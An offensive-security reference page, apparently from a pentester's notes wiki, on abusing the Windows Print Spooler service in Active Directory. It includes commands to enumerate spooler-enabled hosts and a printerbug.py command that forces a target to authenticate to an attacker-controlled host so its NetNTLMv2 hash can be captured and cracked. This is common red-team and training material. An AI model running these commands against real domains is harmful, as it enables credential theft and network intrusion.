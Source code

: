 # Spooler Service Abuse

For any computer that has the **Print Spooler service** enabled (often [[domain-controller|domain controllers]]), any domain user can send a print notification to that computer, triggering it to authenticate to the computer that the print notification originated from. This can be exploited to extract a computer's NetNTLM hash for [[offline-password-cracking|offline cracking]].

---

## Determine which Computers have the Print Spooler Service Enabled (domain user credentials required)

From Linux:

```bash
impacket-rpcdump $DOMAIN/$USERNAME[:$PASSWORD]@$TARGET_FQDN_OR_IP [-hashes $LMHASH:NTLMHASH] | grep MS-RPRN -A 6
```

- `$PASSWORD` or `-hashes` is required

From Windows:

```powershell
. .\Get-SpoolStatus.ps1
. .\PowerView.ps1
Get-DomainComputer | % {Get-SpoolStatus -ComputerName $_.DnsHostName}
```

---

## Force Computers with the Print Spooler Service Enabled to Authenticate to an Attacker-Controlled Host and Steal their NetNTLMv2 Hash

From Linux:

1. [[responder#Start Responding|Start responding with Responder]] on the attacker-controlled host.

2. Use `printerbug.py` from [[krbrelayx]] to send the print notification and trigger the target computer to authenticate.

```bash
cd /opt/krbrelayx
python3 printerbug.py [$DOMAIN]/$USERNAME[:$PASSWORD]@$TARGET_FQDN_OR_IP [-hashes $LMHASH:NTLMHASH] $ATTACKER_CONTROLLED_HOST
```

- `$DOMAIN/$USERNAME` is any valid domain user
- `$PASSWORD` or `-hashes` is required

---

## Crack NetNTLMv2 Hashes

See [[hashcat#Crack NetNTLMv2 Hashes|Hashcat]].

---

## [Spool Service Abuse -> NetNTLMv1 -> NTLM -> Silver Ticket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
